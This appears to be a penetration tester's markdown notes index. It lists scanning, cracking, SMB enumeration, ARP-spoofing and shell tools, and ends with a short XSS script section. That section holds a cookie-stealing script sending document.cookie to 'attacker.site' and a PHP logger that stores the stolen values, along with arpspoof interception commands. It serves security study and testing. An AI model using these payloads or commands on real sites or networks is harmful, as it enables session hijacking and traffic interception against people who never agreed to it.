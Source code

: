 # Tools
## connectivity / port scanning
- [[icmp]]
- [[nmap]]
- [[ssl]]
- `sublist3r` **still needs some work**
- `amass` **still needs some work**
-   [PacketWhisper](https://github.com/TryCatchHCF/PacketWhisper)
-   [egress-checking](https://labs.mwrinfosecurity.com/blog/egress-checking)
-   [dnsdumpster.com](http://dnsdumpster.com)

## Web Apps
- `httprint -P0 -h -s` **needs some work**
- [[http_dirs]]

### SQL injection
- [[sql]]
- [mysql cli](https://dev.mysql.com/doc/refman/8.0/en/mysql.html)

### Web shells
- [[web_shells]]

## Bruteforcing and cracking
-   [[john]]
- [[password_lists]]
- [[hask_cat]]
- [hash-id](https://pypi.org/project/hashID)
- https://www.tunnelsup.com/hash-analyzer/
-   `ophcrack`
- [[hydra]]
-   [one-rule-to-rule-them-all/](https://notsosecure.com/one-rule-to-rule-them-all/)
-   [commom passwords](https://wiki.skullsecurity.org/Passwords)

## SMB enumeration
-   relevant ports: 135,139,445
-   [[win_smb_enum]]
- [[linux_smb_enum]]

## ARP poisoning
-   configure routing `echo 1 > /rpoc/sys/net/ipv4/ip_forward`OR `sudo sysctl -w net.ipv4.ip_forward=1`
-   `arpspoof -i <interface> -t <target victim> -r <host victim>` 
-   use wireshark to watch the traffic pass through

## MetaSploit
-   [metasploit](https://www.metasploit.com)
- [[metasploit]]
## shells
- [[netcat]]
- [[socat]]
- [[bash_shells]]
- [[powershell_shells]]
-   [reverse shell cheatsheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
-   [payloads all the things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#golang)
-   [shell upgrading to tty](https://netsec.ws/?p=337)
- `/usr/share/webshells` in kali
- fix row / column size
	- `stty -a` retrieve default settings for terminal
	- replace target settings with these numbers: `stty rows <number>` and `stty cols <number>`

## PrivEsc
- [[linux_privesc]]
- [[windows_privesc]]

### msfvenom
- [[msfvenom]]

# scripts
## XSS
### target
```
<script>
var i = new Image();
i.src = "http://attacker.site/log.php?q="+document.cookie;
</script>
```
### attacker
```
<?php
$filename="/tmp/log.txt";
$fp=fopen($filename, 'a');
$cookie=$_GET['q'];
fwrite($fp, $cookie);
fclose($fp);
?>
```
run with: `php -S 0.0.0.0:8090`
# configs for SMB
```
client min protocol = CORE
client max protocol = SMB3 
client use spnego = no 
client ntlmv2 auth = no
```